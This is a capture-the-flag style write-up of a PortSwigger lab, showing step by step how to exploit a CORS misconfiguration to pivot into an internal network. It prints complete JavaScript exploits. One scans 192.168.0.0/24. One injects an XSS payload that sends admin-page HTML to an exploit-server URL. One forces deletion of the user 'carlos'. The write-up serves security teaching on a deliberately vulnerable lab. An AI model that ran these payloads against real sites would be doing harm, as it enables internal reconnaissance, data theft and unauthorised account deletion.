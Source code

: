 # CORS vulnerability with internal network pivot attack | Dec 27, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack), you'll learn: CORS vulnerability with internal network pivot attack! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★★★★★☆

## Background

This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts all internal network origins.

This lab requires multiple steps to complete. To solve the lab, craft some JavaScript to locate an endpoint on the local network (`192.168.0.0/24`, port `8080`) that you can then use to identify and create a CORS-based attack to delete a user. The lab is solved when you delete user `Carlos`.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-4/images/Pasted%20image%2020221227072920.png)

**In the lab's background, it said:**

> This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts all internal network origins.

**Let's go to the exploit server, and scan the local network (`192.168.0.0/24`, port `8080`):**
```html
<html>
    <head>
        <title>CORS-4</title>
    </head>
    <body>
        <script>
        var q = [], collaboratorURL = 'http://exploit-0a7f00490417a1aac052b207013a00cb.exploit-server.net/log';

        for(i=1;i<=255;i++) {
            q.push(function(url) {
                return function(wait) {
                    fetchUrl(url, wait);
                }
            }('http://192.168.0.'+i+':8080'));
        }

        for(i=1;i<=20;i++){
            if(q.length)q.shift()(i*100);
        }

        function fetchUrl(url, wait) {
            var controller = new AbortController(), signal = controller.signal;
            fetch(url, {signal}).then(r => r.text().then(text => {
                location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now();
            }))
            .catch(e => {
                if(q.length) {
                    q.shift()(wait);
                }
            });
            setTimeout(x => {
                controller.abort();
                if(q.length) {
                    q.shift()(wait);
                }
            }, wait);
        }
        </script>
    </body>
</html>
```

**Then, host it in the exploit server and deliver it to the victim:** 

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-4/images/Pasted%20image%2020221227073641.png)

**Exploit server access log:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-4/images/Pasted%20image%2020221227073715.png)

**Copy and paste that to [CyberChef](https://gchq.github.io/CyberChef/):**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-4/images/Pasted%20image%2020221227073826.png)

**As you can see, in `192.168.0.28:8080`, there is an internal website:**
```html
<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>CORS vulnerability with internal network pivot attack</title>
    </head>
    <body>
[...]
        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/my-account">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <h1>Login</h1>
                    <section>
                        <form class=login-form method=POST action=/login>
                            <input required type="hidden" name="csrf" value="GosySyayHEHiWUtqCKSznVQvBVH18gXa">
                            <label>Username</label>
                            <input required type=username name="username">
                            <label>Password</label>
                            <input required type=password name="password">
                            <button class=button type=submit> Log in </button>
                        </form>
                    </section>
                </div>
            </section>
        </div>
    </body>
</html>
```

**Looks like it's an login page in our lab:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-4/images/Pasted%20image%2020221227074756.png)

Next, we need to **find an XSS(Cross-Site Scripting) vulnerability in that login page**. If we found one, maybe we can go to the admin panel and delete user `carlos`!

**To do so, we'll again write another JavaScript:**
```html
<html>
    <head>
        <title>CORS-4</title>
    </head>
    <body>
        <script>
            function xss(url, text, vector) {
                location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
            }

            function fetchUrl(url, collaboratorURL){
                fetch(url).then(r=>r.text().then(text=>
                {
                    xss(url, text, '"><iframe src=/admin onload="new Image().src=\''+collaboratorURL+'?code=\'+encodeURIComponent(this.contentWindow.document.body.innerHTML)">');
                }
                ))
            }

            fetchUrl("http://192.168.0.28:8080", "http://exploit-0a7f00490417a1aac052b207013a00cb.exploit-server.net/log");
        </script>
    </body>
</html>
```

**Then, host it on the exploit server, deliver it to the victim:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-4/images/Pasted%20image%2020221227075207.png)

**Check exploit server access log:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-4/images/Pasted%20image%2020221227075253.png)

```html
[...]
        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href="/">Home</a><p>|</p>
                            <a href="/admin">Admin panel</a><p>|</p>
                            <a href="/my-account?id=administrator">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <form style="margin-top: 1em" class="login-form" action="/admin/delete" method="POST">
                        <input required="" type="hidden" name="csrf" value="dyNlR2Q5cFUGqxIWTSaSfB4DIT25V2mg">
                        <label>Username</label>
                        <input required="" type="text" name="username">
                        <button class="button" type="submit">Delete user</button>
                    </form>
                </div>
            </section>
        </div>
```

As you can see, the XSS payload worked, and **the `<iframe>` tag successfully pointed to the admin panel(`/admin`).**

**Let's delete user `carlos`!**
```html
<html>
    <head>
        <title>CORS-4</title>
    </head>
    <body>
        <script>
            function xss(url, text, vector) {
                location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
            }

            function fetchUrl(url){
                fetch(url).then(r=>r.text().then(text=>
                {
                xss(url, text, '"><iframe src=/admin onload="var f=this.contentWindow.document.forms[0];if(f.username)f.username.value=\'carlos\',f.submit()">');
                }
                ))
            }

            fetchUrl("http://192.168.0.28:8080");
        </script>
    </body>
</html>
```

**Again, host it, deliver exploit to victim:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-4/images/Pasted%20image%2020221227075703.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-4/images/Pasted%20image%2020221227075710.png)

We successfully deleted user `carlos`!

# What we've learned:

1. CORS vulnerability with internal network pivot attack